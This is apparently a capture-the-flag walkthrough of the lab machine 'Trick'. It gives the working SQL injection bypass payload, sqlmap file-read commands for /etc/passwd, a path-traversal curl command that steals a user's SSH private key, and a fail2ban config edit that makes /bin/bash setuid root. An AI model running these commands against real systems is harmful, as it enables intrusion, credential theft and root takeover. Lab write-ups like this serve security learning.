# Trick


## Introduction

Trick is a Linux machine exploiting DNS, a virtual host vulnerable to SQL injection, and a second virtual host vulnerable to LFI. Once the foothold is obtained, a sudo command on `fail2ban` allows modification of a writable configuration file, leading to root code execution.

## Enumeration

Nmap scan



**HTTP**

The site on port 80 is just a static site with nothing interesting on it; let's take a look at the DNS.

**DNS**

Let's do a DNS Lookup



DNS Zone transfert



We add these subdomains found in the `/etc/hosts` file:
```
root.trick.htb
preprod-payroll.trick.htb
```

### HTTP: preprod-payroll.trick.htb

The whatweb tool indicates that the site uses a "Payroll Management System".



And a Google search tells us that there is an SQL injection vulnerability in the application's username field.

So I tried this payload `admin' OR 1=1#` and it worked





You know, when you find a valid SQLi query, you don't think twice: **sqlmap**

So I captured the query with Burp and added `*` to the username field to indicate the target parameter to sqlmap

I used my [SQLMAP](https://github.com/Dipeua/Cyberdocs/blob/main/Web%20Exploitation/SQLi/SQLMap.md) guide for the enumeration. And here are the actions to be performed :

```sh
sqlmap -r request.txt --batch --level=5 --risk=3 --dbms=MySQL --banner --current-user --current-db --is-dba --privileges
```



With the `FILE` privileges, we can read the files from `/etc/passwd` for testing.

```sh
sqlmap -r request.txt --batch --file-read "/etc/passwd"
```


I tried to read Michael's `id_rsa` file, but it didn't work. Maybe it doesn't exist, or we're limited in what we can do.



After making mistakes searching for important files, I thought about reading the one on the server itself, and yes, nginx `/etc/nginx/sites-available/default`

```sh
sqlmap -r request.txt --batch --file-read "/etc/nginx/sites-available/default"
```


We have a new subdomain: `preprod-marketing.trick.htb` which we add to our hosts file

### HTTP: preprod-marketing.trick.htb



In this domain we find an [LFI](https://github.com/Dipeua/Cyberdocs/blob/main/Web%20Exploitation/File%20Inclusions/LFI.md) and I used a technique called Transversal Bypass Path



With this LFI I tried again to read id_rsa and it worked



## Initial Access

```sh
curl -s 'http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//home/michael/.ssh/id_rsa' > id_rsa

chmod 600 id_rsa
ssh -i id_rsa michael@trick.htb
```


## Privilege Escalation

[My note to exploit fail2ban](https://github.com/Dipeua/Cyberdocs/blob/main/Post%20Exploitation/Privelege%20Escalation/Linux/Service%20Exploits.md)




```sh

cd /etc/fail2ban/action.d

mv iptables-multiport.conf iptables-multiport.conf.bak
cp iptables-multiport.conf.bak iptables-multiport.conf 
nano iptables-multiport.conf

actionban = chmod u+s /bin/bash

sudo /etc/init.d/fail2ban restart
```

NB: *What I didn't mention in my notes is that after modifying the `actionban`, you need to perform a series of fake connections to force fail2ban to block SSH requests, which will trigger our rule.*

